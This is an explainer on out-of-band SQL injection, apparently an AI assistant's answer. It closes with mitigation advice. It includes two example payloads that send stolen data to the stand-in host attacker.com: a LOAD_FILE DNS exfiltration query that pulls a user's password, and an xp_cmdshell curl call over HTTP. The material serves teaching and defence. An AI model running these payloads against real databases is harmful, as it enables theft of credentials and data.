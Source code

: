 
**Out-of-Band SQL Injection (OOB SQLi)**, which is a type of SQL injection attack where the attacker retrieves data from a database by leveraging external network channels (like DNS, HTTP requests, or other protocols) rather than directly through the application's response.

### **Key Concepts of Out-of-Band SQLi:**
1. **How it Works**:
   - The attacker injects malicious SQL queries that force the database to make an outbound request (e.g., DNS lookup, HTTP call) containing stolen data.
   - The attacker monitors an external server they control to capture the exfiltrated data.

2. **When Used**:
   - When traditional **In-Band (Error-Based/Union-Based)** or **Blind SQLi** techniques don't work.
   - When the database has functions that allow external network interactions (`LOAD_FILE()`, `UTL_HTTP`, `xp_cmdshell`, etc.).

3. **Example Techniques**:
   - **DNS Exfiltration**:  
     ```sql
     SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\share\\file.txt'));
     ```
     The database makes a DNS request to `<stolen-data>.attacker.com`, which the attacker logs.

   - **HTTP Requests**:  
     ```sql
     DECLARE @data VARCHAR(1024); 
     SET @data = (SELECT TOP 1 column_name FROM table_name); 
     EXEC('xp_cmdshell ''curl http://attacker.com/?data=' + @data + '''');
     ```

4. **Mitigation**:
   - Disable unnecessary database functions (`xp_cmdshell`, `UTL_HTTP`).
   - Use parameterized queries/prepared statements.
   - Implement strict firewall rules to block outbound requests from databases.
   - Monitor unusual DNS/HTTP traffic from DB servers.

Would you like a deeper dive into exploitation techniques or detection methods?
